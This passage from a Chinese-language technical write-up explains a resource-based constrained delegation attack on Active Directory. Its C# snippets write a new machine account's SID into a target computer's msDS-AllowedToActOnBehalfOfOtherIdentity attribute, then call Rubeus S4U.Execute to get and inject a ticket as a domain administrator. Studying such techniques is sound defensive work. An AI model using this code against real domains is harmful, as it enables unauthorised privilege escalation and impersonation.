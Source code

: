 ```c#
    // ...
}
```

然后通过一个查询请求，获取新添加的计算机对象的 SID 并返回，并通过 `System.DirectoryServices.Protocols.ModifyRequest` 接口将新计算机账户的 SID 添加到目标计算机账户（也就是当前计算机账户）的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性中，以设置从新机器帐户到目标计算机帐户的基于资源的约束委派，如下所示。

```c#
entry = Ldap.LocateAccount(computerName + "$", domain, domainController);
if (entry != null)
{
    try
    {
        securityIdentifier = new SecurityIdentifier(entry.Properties["objectSid"][0] as byte[], 0);
        Console.WriteLine($"[*] Sid of the new computer account: {securityIdentifier.Value}");
    }
    catch
    {
        Console.WriteLine("[-] Can not retrieve the sid");
    }
}

// ...

string nTSecurityDescriptor = "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;" + securityIdentifier + ")";
RawSecurityDescriptor rawSecurityIdentifier = new RawSecurityDescriptor(nTSecurityDescriptor);
byte[] descriptorBuffer = new byte[rawSecurityIdentifier.BinaryLength];
rawSecurityIdentifier.GetBinaryForm(descriptorBuffer, 0);

ModifyRequest modifyRequest = new ModifyRequest(TargetComputerDN, DirectoryAttributeOperation.Replace, "msDS-AllowedToActOnBehalfOfOtherIdentity", descriptorBuffer);
try
{
    ModifyResponse modifyResponse = (ModifyResponse)connection.SendRequest(modifyRequest);
    Console.WriteLine($"[*] {computerName}$ can now impersonate users on {TargetComputerDN} via S4U2Proxy");
}
catch
{
    Console.WriteLine("[-] Could not modify attribute msDS-AllowedToActOnBehalfOfOtherIdentity, check that your user has sufficient rights");
}

// ...
```

最后，调用 Rubeus 工具集提供的 `S4U.Execute()` 方法分别执行 S4U2self 和 S4U2proxy 过程，如下所示。这将代表域管理员用户申请到针对当前计算机上 HOST 服务的票据，并将其提交到内存中。

```c#
// ...

S4U.Execute(computerName, domain, computerHash, encType, targetUser, targetSPN, ptt: true, domainController: domainController);

// ...
```
